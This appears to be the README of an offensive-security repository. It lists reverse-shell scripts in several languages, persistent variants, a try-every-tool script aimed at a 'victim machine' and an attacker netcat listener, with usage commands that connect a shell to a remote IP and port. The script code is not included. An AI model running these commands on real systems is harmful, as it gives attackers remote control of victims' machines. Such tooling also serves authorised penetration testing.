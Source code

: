 # Reverse-Shell
 A collection of scripts for creating a reverse shell from a victim machine to connect to an attacker listener.

## Scripts
Attacker Listener script with:
- Netcat (`nc`) `attacker.sh`

Simple Reverse shells in:
- Bash: `reverse.sh`
- Python: `reverse.py`
- PHP: `reverse.php`
- C: `reverse.c`
- JavaScript: `reverse.js`
- Go: `reverse.go`

Persistent Reverse shells in:
- Bash: `reverse_persistent.sh`
- Python: `reverse_persistent.py`

Reverse shell in all available languages and tools on the victim system:
- `reverse_check_all.sh`

Supported Languages/Tools:
- `bash`
- `socat`
- `perl`
- `python2`
- `python3`
- `php`
- `go`
- `nc`
- `ncat`
- `node`
- `gcc`
- `clang`

## Usage
Run every script with the `--help` option (or `-h`), to see the scripts arguments and how to run.

Example for `reverse.py`:
```bash
$ python3 reverse.py -h

usage: reverse.py [-h] IP PORT

Simple Reverse Shell script in Python that connects to a remote machine.

positional arguments:
  IP          IPv4 address of the remote machine
  PORT        Port of the remote machine

optional arguments:
  -h, --help  show this help message and exit
```

### Bash
```bash
bash reverse.sh IP PORT
```

### Python
```bash
python3 reverse.py IP PORT
```

### PHP
```bash
php reverse.php IP PORT
```

### C
```bash
gcc reverse.c -o reverse.out && ./reverse.out IP PORT
# or
clang reverse.c -o reverse.out && ./reverse.out IP PORT
```

### Go
```bash
go run reverse.go IP PORT
```

### JavaScript (Node.js)
```bash
node reverse.js IP PORT
```


## To-Do
- [ ] Add Terminal Colors (Bash, Python)
- [ ] Add functionality to main function
- [ ] Implement for `reverse_check_all.sh`:
    - [ ] `ruby`
    - [ ] `awk`
    - [ ] `pwsh` (Powershell)
    - [ ] `openssl`
- [ ] Add more persistent scripts for other languages.
